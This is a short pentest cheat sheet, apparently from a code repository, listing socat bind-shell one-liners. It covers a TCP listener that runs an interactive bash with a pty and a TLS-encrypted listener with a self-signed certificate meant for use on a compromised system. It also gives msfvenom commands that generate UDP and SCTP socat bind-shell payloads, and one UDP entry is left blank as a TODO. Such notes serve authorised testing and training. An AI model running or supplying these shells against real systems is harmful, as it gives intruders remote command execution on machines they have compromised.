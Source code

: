 # Socat

## 01 - One-liners

### 1.1 - TCP Method

```
$ socat tcp-listen:<PORT>,reuseaddr,fork exec:'/bin/bash -li',pty,stderr,setsid,sigint,sane
```

### 1.2 - UDP Method

TODO: Generate an msfvenom for UDP bind shell socat

```
$ socat
```
\
### 1.3 - TLS Method

Note: Only generated TLS certificates in a compromised system.

```
$ openssl req -newkey rsa:2048 -nodes -keyout private.key -x509 -days 362 -out certificate.crt

$ cat private.key certificate.crt > key.pem

$ socat OPENSSL-LISTEN:<PORT>,cert=key.pem,verify=0,fork EXEC:/bin/bash
```

## 02 - Generate via `msfvenom`

### 2.1 - UDP Method

```
$ msfvenom -p cmd/unix/bind_socat_udp lport=<PORT>
```

### 2.2 - SCTP Method

```
$ msfvenom -p cmd/unix/bind_socat_sctp lport=<PORT>
```